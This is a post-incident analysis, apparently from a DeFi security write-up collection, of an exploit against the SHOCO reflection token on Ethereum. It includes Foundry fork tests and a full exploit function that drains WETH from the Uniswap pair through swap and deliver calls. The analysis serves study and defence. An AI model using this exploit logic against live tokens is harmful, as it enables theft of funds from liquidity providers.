




# 230119-SHICO

Analyzing the [TINU attack incident](./230126_TINU.md), it was found that the attacker also attempted a similar attack vector against the [SHOCO token](https://etherscan.io/address/0x31a4f372aa891b46ba44dc64be1d8947c889e9c6), but was [frontrun](https://etherscan.io/tx/0x2e832f044b4a0a0b8d38166fe4d781ab330b05b9efa9e72a7a0895f1b984084b). Below is a brief analysis of this attack.

## AttackTx




A simple analysis of the bot's [AttackTx](https://phalcon.blocksec.com/explorer/tx/eth/0x2e832f044b4a0a0b8d38166fe4d781ab330b05b9efa9e72a7a0895f1b984084b) and the original [attackContract](https://app.dedaub.com/ethereum/address/0x15d684b4ecdc0ece8bc9aec6bce3398a9a4c7611/decompiled) reveals that this attack is similar to TINU, except the attacker used a more complex `skim->deliver` call chain.



It is worth mentioning that the original attacker did not use Flashbots' privacy service to send the [attack](https://etherscan.io/tx/0x2f2c3c1c648f6ef0fc3600a91ad389daeb6c76602c4bf0100475696535b6f84f), and the code only verified `msg.sender`, which made the transaction initiated vulnerable to frontrunning.



The bot, however, used Flashbots to initiate the transaction, bribing the Builder with 0.09 Ether and ultimately profiting approximately 4.067 Ether.



After the attack, `rTotal` decreased, and `tFeeTotal` increased, indicating that the vulnerability should be consistent with TINU.

## Vulnerability

Test SHOCO using the following code.

``` solidity
function testExcludePair() external {
    uint attackBlockNumber = 16440978;
    vm.rollFork(attackBlockNumber);
    console2.log("exclude pair?", shoco.isExcluded(address(shoco_weth)));
    // false
}

function testCondition() external {
    uint attackBlockNumber = 16440978;
    vm.rollFork(attackBlockNumber);

    uint256 rTotal = uint256(vm.load(address(shoco), bytes32(uint256(14))));
    uint256 rExcluded = getMappingValue(address(shoco), 3, address(0xCb23667bb22D8c16e742d3Cce6CD01642bAaCc1a));
    uint256 tExcluded = getMappingValue(address(shoco), 4, address(0xCb23667bb22D8c16e742d3Cce6CD01642bAaCc1a));
    uint256 rPair = getMappingValue(address(shoco), 3, address(shoco_weth));

    emit log_named_uint("SHOCO rTotal", rTotal);       // 92755547632244760386804193176548296809462337522816469006214886422157380388136
    emit log_named_uint("SHOCO rExcluded", rExcluded);  // 8156838275115295013986843616955720757118132673218460444629959325168666253906
    emit log_named_uint("SHOCO tExcluded", tExcluded);  // 87404117343064238256026
    emit log_named_uint("Pair rOwned", rPair); // 92466134384845745906067152367297685498563381326034118259801712787064725855887
    console2.log("rPair > rSupply?", rPair > rTotal-rExcluded); // true
}
```

It can be observed that it is identical to the vulnerability in TINU, i.e., failure to exclude the pair and increasing `rOwned` out of thin air, meeting the conditions for attack. Code comparison also verifies that SHOCO's code follows the same logic as TINU.

## Exploit

Therefore, a similar script can be directly used to launch the attack.

``` solidity
function testExploit() external {
    uint attackBlockNumber = 16440978;
    vm.rollFork(attackBlockNumber);
    emit log_named_decimal_uint("WETH balance", weth.balanceOf(address(shoco_weth)), weth.decimals());
    deal(address(weth), address(this), 2000 ether);

    uint256 rTotal = uint256(vm.load(address(shoco), bytes32(uint256(14))));
    uint256 rExcluded = getMappingValue(address(shoco), 3, address(0xCb23667bb22D8c16e742d3Cce6CD01642bAaCc1a));
    uint256 rAmountOut = rTotal-rExcluded;
    uint256 shocoAmountOut = shoco.tokenFromReflection(rAmountOut) - 0.1*10**9;

    (uint reserve0, uint reserve1, ) = shoco_weth.getReserves();
    uint256 wethAmountIn = getAmountIn(shocoAmountOut, reserve1, reserve0);
    emit log_named_decimal_uint("WETH amountIn", wethAmountIn, weth.decimals());
    weth.transfer(address(shoco_weth), wethAmountIn);

    shoco_weth.swap(
        shocoAmountOut,
        0, 
        address(this),
        ""
    );

    shoco.deliver(shoco.balanceOf(address(this))*99999/100000);

    (reserve0, reserve1, ) = shoco_weth.getReserves();
    uint256 wethAmountOut = getAmountOut(shoco.balanceOf(address(shoco_weth))-reserve0, reserve0, reserve1);
    shoco_weth.swap(0, wethAmountOut, address(this), "");
    if (wethAmountIn < wethAmountOut) {
        emit log_named_decimal_uint("Attack profit:", wethAmountOut - wethAmountIn, weth.decimals());
    } else {
        emit log_named_decimal_uint("Attack loss:", wethAmountIn - wethAmountOut, weth.decimals());
    }
}

function testSwap() external {
    uint attackBlockNumber = 16440978;
    vm.rollFork(attackBlockNumber);
    uint256 rTotal = uint256(vm.load(address(shoco), bytes32(uint256(14))));
    uint256 rExcluded = getMappingValue(address(shoco), 3, address(0xCb23667bb22D8c16e742d3Cce6CD01642bAaCc1a));
    uint256 shocoDeliver = shoco.tokenFromReflection(rTotal-rExcluded)-0.1*10**9;

    // uint256 amountOut = 1 ether;
    uint256 amountOut = 4.3 ether;
    shoco_weth.swap(shocoDeliver, amountOut, address(this), "1");
    emit log_named_decimal_uint("WETH balance", weth.balanceOf(address(this)), weth.decimals());
}

function uniswapV2Call(address /*sender*/, uint /*amount0*/, uint /*amount1*/, bytes calldata /*data*/) external {
    shoco.deliver(shoco.balanceOf(address(this))*99999/100000);
}
```

The only difference is that burning all tokens obtained from `swap` here would cause the pair's balance to be too large, leading to an error in the final `_update`: `require(balance0 <= uint112(-1) && balance1 <= uint112(-1), 'UniswapV2: OVERFLOW');`. Hence, they cannot all be used for `deliver`. The final profit is approximately 4.3 Ether.

The complex call chain in the original attack may have been obtained through testing, which is not discussed here.

## Misc

Obviously, the actual profit of 4.3 Ether is slightly more than the original attack's approximately 4.16 Ether. Therefore, upon further examination of the SHOCO token, it was found that someone related to the Nomad Bridge attack, launched another [attack](https://phalcon.blocksec.com/explorer/tx/eth/0xe28eac8bbe116c117621df1aba2bffe3ae73dd205faede17c59c8a38ef32f4b3) against it a month later. 

Furthermore, it can be observed that the [attackContract](https://etherscan.io/address/0xa3803ca668071382c525248d0416769ea775ccae) used was deployed by another address [0x961c](https://etherscan.io/address/0x961c44acf3198da23e289445d3db6a7531890b50), and since its contract had no protection measures, it was directly used by 0x1dbd to complete frontrun.